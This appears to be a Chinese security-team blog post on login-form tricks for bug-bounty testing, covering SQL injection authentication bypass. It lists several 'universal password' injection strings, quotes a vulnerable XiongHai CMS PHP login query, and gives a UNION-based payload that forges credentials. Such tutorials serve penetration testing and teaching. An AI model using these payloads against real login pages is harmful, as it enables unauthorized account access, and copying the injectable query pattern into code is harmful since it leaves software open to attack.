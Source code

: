 #  SRC登录框Tricks

[ 赤弋安全团队 ](javascript:void\(0\);)

**赤弋安全团队** ![]()

微信号 gh_532e7430f018

功能介绍 渗透测试，代码审计，CTF ，红蓝对抗，SRC

____

___发表于_

收录于合集 #SRC 7个

## 登录&注册

### SQL注入

#### 万能密码绕过

存在SQL注入的情况下,有可能使用万能密码直接登录

> admin' or '1'='1'--  
> admin' OR 4=4/*  
> "or "a"="a  
> ' or''='  
> ' or 1=1--

有超级多

#### 登录口注入

存在SQL注入的话直接注处账号密码.  
有些可能构造用户注入登录，比如熊海CMS后台登录处存在SQL注入.

    
    
    $login=$_POST['login'];   
    $user=$_POST['user'];   
    $password=$_POST['password'];   
    $checkbox=$_POST['checkbox'];   
      
    if ($login<>""){   
    $query = "SELECT * FROM manage WHERE user='$user'";   
    $result = mysql_query($query) or die('SQL语句有误：'.mysql_error());   
    $users = mysql_fetch_array($result);   
    

这里万能密码起不到作用，因为他是通过用户名去数据库查账号密码，在进行匹配，还有一种方法非常巧妙。

    
    
    user:1' union select 1,2,'test','c4ca4238a0b923820dcc509a6f75849b',5,6,7,8#   
    password:1   
    
